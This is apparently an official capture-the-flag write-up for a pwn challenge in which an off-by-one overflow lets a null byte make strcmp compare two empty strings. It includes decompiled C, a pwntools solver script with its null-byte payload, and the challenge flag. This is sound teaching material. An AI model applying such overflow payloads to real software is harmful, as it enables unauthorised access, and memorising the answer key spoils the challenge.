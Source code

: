 ![](assets/banner.png)



<img src="assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />    	<font size="10">Writing on the Wall</font>

​		28<sup>th</sup> January 2024 / Document No. DYY.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Very Easy</font>

​		Classification: Official

 



# Synopsis

Writing on the wall is a very easy difficulty challenge that features `off-by-one`, `strcmp null strings`.

# Description

As you approach a password-protected door, a sense of uncertainty  envelops you—no clues, no hints. Yet, just as confusion takes hold, your gaze locks onto cryptic markings adorning the nearby wall. Could this  be the elusive password, waiting to unveil the door's secrets?

## Skills Required

- Basic C.

## Skills Learned

- `strcmp` stops at null bytes.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ✅      | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

All protections are enabled.

The program's interface 

```console
〰③ ╤ ℙ Å ⅀ ₷

The writing on the wall seems unreadable, can you figure it out?

>> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

[-] You activated the alarm! Troops are coming your way, RUN!
```

There is no signal of Buffer Overflow. We need to take a better look at the program.

### Disassembly

Starting with `main()`:

```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_1e [6];
  undefined8 local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_18 = 0x2073736170743377;
  read(0,local_1e,7);
  iVar1 = strcmp(local_1e,(char *)&local_18);
  if (iVar1 == 0) {
    open_door();
  }
  else {
    error("You activated the alarm! Troops are coming your way, RUN!\n");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The program is pretty straightforward. It reads our `7-byte` input at `local_1e` and then it compares it with `local_18` which is the string "w3tpass ".

```python 
>>> import binascii
>>> print(binascii.unhexlify('2073736170743377').decode('utf-8')[::-1])
w3tpass 
```

The string is `8-bytes` long but we can only enter 7 bytes, meaning we will never be able to pass the comparison.

> DESCRIPTION
> The  strcmp()  function  compares  the  two  strings s1 and s2.  It returns an integer less than, equal to, or greater than zero if s1 is found, respectively, to be less than, to match, or be greater than s2.
>
> The strncmp() function is similar, except it compares only the first (at most) n bytes of s1 and s2.
>
> RETURN VALUE
> The strcmp() and strncmp() functions return an integer less than, equal to, or greater than zero if s1 (or the first n bytes thereof) is found, respectively, to be less than,  to match, or be greater than s2.

We need to somehow make this comparison true. Something that is written in the `man` page, is that `strcmp` stops when it reads `\x00` which is the null byte or the terminating character of a string. Having that in mind, we can overflow the buffer and the next thing that will be overwritten, is `local_18` which is the "w3tpass " buffer. If we do so, we will have something like `\x003tpass`. `strcmp` will stop when it reaches the `\x00`, thinking that this is the whole string. What we can do, is filling the buffer with a null byte and junk and then the last byte that will be overwritten to `local_18`, should be null again so that `strcmp` compares 2 empty strings.

# Solution

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.log_level = 'critical'

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process('./writing_on_the_wall')
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')

r.sendline(b'\x00' + b'A'* 5 + b'\x00')
r.recvuntil(': ')
print(f'Flag --> {r.recvline().strip().decode()}\n')
```

```console
Running solver remotely at 0.0.0.0 1337

Flag --> HTB{3v3ryth1ng_15_r34d4bl3}
```

